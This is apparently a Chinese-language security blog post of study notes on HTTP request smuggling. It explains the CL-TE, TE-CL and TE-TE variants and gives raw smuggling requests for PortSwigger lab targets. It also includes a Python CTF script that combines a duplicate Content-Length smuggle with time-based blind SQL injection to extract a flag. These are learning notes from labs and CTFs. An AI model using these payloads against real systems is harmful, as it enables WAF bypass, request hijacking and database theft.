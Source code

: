 ```yaml
---
title: http请求走私笔记
author: ch3n9w
date: 2020-08-24 22:22:46
typora-root-url: ../
categories: 安全研究
---
```






正常的请求

![image-20211114141452612](image-20211114141452612.png)

<!--more-->

请求走私, 攻击者通过在自己的请求中夹带一个请求, 来影响到下一个请求中, 一个典型的例子是反射型xss, 通过在上一次请求中走私一个请求头, 就可以在正常用户接下来进行的一次正常请求的过程中纂改其请求内容, 比如修改他的请求路径为一个反射性xss链接, 这样就可以达到让用户点击正常链接但是却触发xss链接的目的.

![image-20211114141459648](image-20211114141459648.png)

其他的利用

- 捕获用户请求
- 缓存投毒
- 绕过waf(夹带危险请求url, 并在下一次正常请求的时候触发)
- 绕过前端安全控制



首先要知道http发包过程中两个标头的意思

- Content-Length

  - 表示请求体的长度, 简称CL

  ```
  Content-Length: 10
  
  8
  HELLO
  
  ```
  

10个长度指的是以下内容的长度

```
8\r\n
HELLO\r\n
```



- Transfer-Encoding, 简称TE

  - 表示编码时使用的安全传输的形式有效载荷体

  ```
  # 常见的几种
  Transfer-Encoding: chunked
  Transfer-Encoding: compress
  Transfer-Encoding: deflate
  Transfer-Encoding: gzip
  Transfer-Encoding: identity
  ```

  请求走私中一般用的都是``chunked``, 将消息正文视为使用分块编码.这里声明8字节长度, 经过一个换行后开始统计, 统计完8字节后经过一个换行表示下一个数据块开始, 长度为0, 被视为请求终止

  ```
  Transfer-Encoding: chunked
  
  8
  SMUGGLED
  0
  
  
  ```
  
  一个典型的请求如下
  
  ```http
  HTTP/1.1 200 OK 
  Content-Type: text/plain 
  Transfer-Encoding: chunked
  
  7\r\n
  Mozilla\r\n 
  9\r\n
  Developer\r\n
  7\r\n
  Network\r\n
  0\r\n 
  \r\n
  ```
  
  

请求走私发生在存在前端服务器和后端服务器的情况下, 一般有这么几种

-  CL-TE: 前端服务器识别的是Content_-Length, 后端服务器识别的是Transfer-Encoding
- TE-CL: 前端服务器识别的是Transfer-Encoding, 后端服务器识别的是Content-Length
- TE-TE: 前端服务器和后端服务器都是识别Transfer-Encoding的, 但是可以通过某种方式处理标头诱导一台服务器不对其进行处理

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```



## CL-TE

```http
POST / HTTP/1.1
Host: ac811f861fa3584f80e0998500f800dc.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=6mA52yc42gmrXsBVf3gCCwaizRMowHXn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

> 长度为6是因为0\r\n\r\nG, chunked看到0\r\n\r\n之后就结束接受了, 剩下来一个作为下一个请求头的开始

## TE-CL

```http
POST / HTTP/1.1
Host: ac4e1f3c1fe90e5480a44952006b00a0.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=MDCGt1IHa1MdeOnP1wkjRX15gMuiEGT6
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0


```

> chunked检测合理, 注意0\r\n\r\n是规定的结束格式, 然后后端只取12\r\n, 剩下来的东西就变成下一个请求的一部分



## TE-TE

```http
POST / HTTP/1.1
Host: ac731fb01fc279f280a00aac002d0026.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=nGAfuCE6lQ9mnpysbHjt8yG3eO5XnU5S
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: nothing

12
GPOST / HTTP/1.1

0


```

> 这里的情况是前端服务器以第一个TE为标准后端服务器以第二个为标准, 前端服务器通过之后, 后端服务器的TE值不存在, 就转而使用Content-Length为依据, 这个时候的情况就相当于TE-CL情况



## 脚本示例

burpsuite有时候会失败, 用socket

```python
# 2019 高校运维赛 ezwaf
# 使用cl-cl模式 两个content-length
import socket

ip = '111.186.57.43'
port = 10601

def send_raw(raw):
    try:
        with socket.create_connection((ip, port), timeout=5) as conn:
            conn.send(raw)
            res = conn.recv(10240).decode()
            # print(res)
            return False
    except:
        return True



if __name__ == '__main__':
    
    res = 'flag{abypass_modsecurity_'
    res = ""
    for i in range(1, 64):
        for j in range(32, 127):
            payload = '''GET /?age=1%20or%201%20and%20ascii(substr((select%20*%20from%20flag_xdd),{},1))={}%20and%20sleep(7) HTTP/1.1
Host: 111.186.57.43:10601
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 0
Content-Length: 0

'''.format(str(i), str(j))
            exp = payload.encode().replace(b'\n', b'\r\n')
            # print(exp)
            if send_raw(exp):
                res += chr(j)
                print(res)
                continue
```



使用工具:

burpsuite插件HTTP Request Smuggler

https://github.com/defparam/smuggler

参考

https://mp.weixin.qq.com/s/MFw7Trd-zFWNXsU3wTG_Mg

https://portswigger.net/web-security/request-smuggling/exploiting
